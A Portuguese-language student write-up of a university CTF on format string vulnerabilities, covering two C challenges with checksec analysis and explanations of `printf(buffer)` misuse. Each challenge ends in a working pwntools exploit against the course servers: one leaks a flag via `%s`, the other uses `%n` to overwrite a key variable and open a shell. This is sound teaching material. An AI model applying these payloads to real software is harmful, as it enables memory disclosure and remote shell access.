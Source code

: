 ## CTF 3 - Format String

- [ctf-fsi.fe.up:4004](http://ctf-fsi.fe.up.pt:4004)
- [ctf-fsi.fe.up:4005](http://ctf-fsi.fe.up.pt:4005)

### Challenge 1

```c
#include <stdio.h>
#include <stdlib.h>

#define FLAG_BUFFER_SIZE 40

char flag[FLAG_BUFFER_SIZE];

void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}

int main() {

    load_flag();
   
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);

    if(0) {
        printf("I like what you got!\n%s\n", flag);
    } else {
        printf("\nDisqualified!\n");
    }
    fflush(stdout);
    
    
    return 0;
}
```

#### Checksec

![Checksec output](images/ctf3/checksec-1.png)

- Partial RELRO (Relocation Read-Only)

Faz com que a GOT (Global Offset Table), fique antes da BSS (Block Starting
Symbol) em memória. Isto evita com que buffer overflows de variáveis guardadas
na BSS reescrevam entradas na GOT.

- Stack Canaries

Durante a inicialização, é guardado um valor na stack (canário). Quando uma
função retorna, se esse canário foi modificado, é detetado o stack smashing e o
programa é abortado.

- NX (No eXecute) enabled

Separa zonas de memória executável de zonas não executáveis. Evita com que o
input guardado seja executado como código, o que significa que, por exemplo,
shellcode não irá ser executado.

- No PIE (Position Independent Executable)

Os endereços são absolutos e permanecem os mesmo com cada execução do programa.
Como PIE é uma pré-condição para o ASLR, a aleatoriedade da posição em memória
dos endereços feita pelo ASLR não estará ativa

Dado estas proteções, podemos concluir que a GOT ainda pode ser reescrita. Os
canários dificultam ataques de buffer overflow mas não os impedem. Código
introduzido pelo utilizador não irá ser executado, e os endereços são
estáticos. Diversos ataques podem ser feitos e são facilitados pela ausência de
ASLR, incluíndo vulnerabilidades de format string.

#### Questões

- Qual é a linha do código onde a vulnerabilidade se encontra?

A vulnerabilidade encontra-se na seguinte linha:

```c
printf(buffer);
```

Ao fazer um printf sem especificar as strings de formatação, a variável a ser
imprimida, caso controlada pelo utilizador, pode ser usada tanto para ler como
escrever em endereços de memória. Neste caso o conteúdo do buffer é diretamente
controlado pelo utilizador devido à chamada a scanf.

- Qual é a funcionalidade que te permite obter a flag?

Sabendo o endereço da flag, e que o buffer está guardado na stack (frame da
função main), ao escrever um endereço como input para o buffer, seguido de
format specifiers `%s`, alguma destas irá tentar imprimir o que está no
endereço guardado na stack. Para verificar qual dos `%s` irá ler o início do
buffer, podemos preencher os primeiros caractéres do buffer com um padrão
facilmente reconhecido, seguido de vários `%.8x`, algum destes irá imprimir
esses primeiros caractéres em hexadecimal do padrão escolhido. Poderemos ver
após quantos bytes este é lido.  Após sabermos este offset, podemos escrever o
endereço da flag nos primeiros 4 bytes do buffer e usar os restantes para
imprimir a flag.

#### Exploit

Os primeiros 4 bytes do buffer são os primeiros a ser verificados pela format
string (0x61 em ASCII traduz-se para o caracter "a")

![Format String Offset](images/ctf3/distance-1.png)

Obter o endereço da flag (estático) usando gdb:

![Format String Offset](images/ctf3/flag_address-1.png)

Podemos então usar o seguinte exploit em python para obter a flag:

```py
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")

flag = 0x804c060.to_bytes(4, byteorder="little")

p.sendline(flag + b"%s")
p.interactive()
```

### Challenge 2

```c
#include <stdio.h>
#include <stdlib.h>

int key = 0;

int main() {
   
    char buffer[32];

    printf("There is nothing to see here...");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this:");
    printf(buffer);
    fflush(stdout);

    if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    }
        
    return 0;
}
```

#### Checksec

![Checksec output](images/ctf3/checksec-2.png)

As medidas de segurança implementadas são as mesmas que no 1º Desafio, o que
foi escrito para a secção do checksec deste, aplica-se também ao 2º Desafio.

#### Questões

- Qual é a linha do código onde a vulnerabilidade se encontra? E o que é que a
  vulnerabilidade permite fazer?

A vulnerabilidade é semelhante à do 1º Desafio e está novamente no printf sem
string de formatação. Neste caso temos uma variável key, que queremos alterar para
0xbeef, de modo a obter uma shell.

- A flag é carregada para memória? Ou existe alguma funcionalidade que podemos
  utilizar para ter acesso à mesma.

A flag não é carregada para memória, no entanto, caso consigamos entrar no if
statement que invoca uma shell, temos acesso ao servidor e podemos aceder aos
seus ficheiros. A flag será um desses ficheiros.

- Para desbloqueares essa funcionalidade o que é que tens de fazer?

Para desbloquear a funcionalidade da backdoor, temos que reescrever no endereço
da variável key o valor 0xbeef. Para isto é necessário o endereço da variável
key. É também necessário utilizar a funcionalidade do format specifier `%n` que
escreve no endereço da stack apontado pela format string o número de caractéres
imprimidos até ao momento. Podemos assim escrever 0xbeef em key, caso sejam
impressos 48879 (0xbeef em decimal) caractéres antes de `%n`. O endereço da key
tem que estar na stack na posição correta para ser considerado o argumento de
`%n`.

#### Exploit

Obter o endereço de key:

![Format String Offset](images/ctf3/key_address-2.png)

Para imprimir 48879 caractéres, sendo que o buffer tem um limite de 32 bytes, é
necessária outra funcionalidade. Ao usarmos o format specifier `%.48879x`
conseguímos imprimir mais caratéres, temos então bytes suficientes para
escrever 0xbeef na variável key. Esta string de formatação imprime em
hexadecimal e adiciona padding com 0x00, estes 0x00 são indiferentes à esquerda
do valor em hexadecimal mas contam para o número de caractéres impressos usado
em `%n`.

Como o `%.48879x` irá imprimir em hexadecimal o conteúdo dos primeiros 4 bytes
de buffer (bytes 0 a 3), os seguintes (bytes 4 a 7) é que poderão vir a ser
escritos pelo format specifier `%n`. Usando então um endereço qualquer de 4
bytes (podendo mesmo ser o endereço da key novamente), seguido do endereço da
key, o format specifier `%x` irá imprimir o endereço dos 4 primeiros bytes, e o
`%n` irá escrever na posição de memória contida nos 4 bytes após esses. Como
antes de `%x` temos 8 caractéres a ser impressos (address + key ambos de 4
bytes). Ficam a faltar 48871 bytes para que o valor escrito em key seja 0xbeef.
Usámos então o seguinte exploit em python:

```py
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4005)
p.recvuntil(b"here...")

address = b"\x12\x34\x56\x78"
key = 0x804c034.to_bytes(4, byteorder="little")

p.sendline(address + key + b"%.48871x" + b"%n")
p.interactive()
```

Ativação da backdoor e ficheiro flag.txt:

![Backdoor PoC](images/ctf3/flag-2.png)
